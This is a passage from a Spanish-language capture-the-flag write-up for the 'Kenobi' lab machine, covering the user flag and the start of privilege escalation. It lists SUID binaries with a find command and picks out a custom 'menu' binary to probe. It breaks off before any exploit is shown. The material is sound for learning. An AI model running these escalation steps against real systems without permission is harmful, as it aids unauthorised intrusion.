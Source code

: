 ```bash
```

Una vez que hemos obtenido acceso al sistema, procedemos leer la flag de usuario en su directorio principal.

```bash
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa53****************
```

## Escalación de privilegios

---

Después de obtener una shell en la máquina, nuestro objetivo es elevar nuestros privilegios y obtener acceso como usuario `root`. Una buena practica es listar los privilegios que tiene el usuario actual para ejecutar comandos con `sudo`. Lamentablemente, esta acción nos solicita la contraseña del usuario `kenobi`, la cual desconocemos. 

A continuación, listamos los binarios `SUID` con el fin de identificar posibles binarios con permisos mal configurados que puedan permitirnos escalar privilegios.

```bash
kenobi@kenobi:~$ find / -perm -4000 -type f -user root 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

Obtenemos un binario inusual en el sistema llamado `menu`. Este binario no es común y no se encuentra en la lista de binarios de **GTFObins**. En estos casos, es posible que se trate de un binario personalizado creado por un usuario del sistema. Para confirmar esto, lo ejecutamos de manera normal.

```bash
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Sun, 02 Apr 2023 23:19:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
```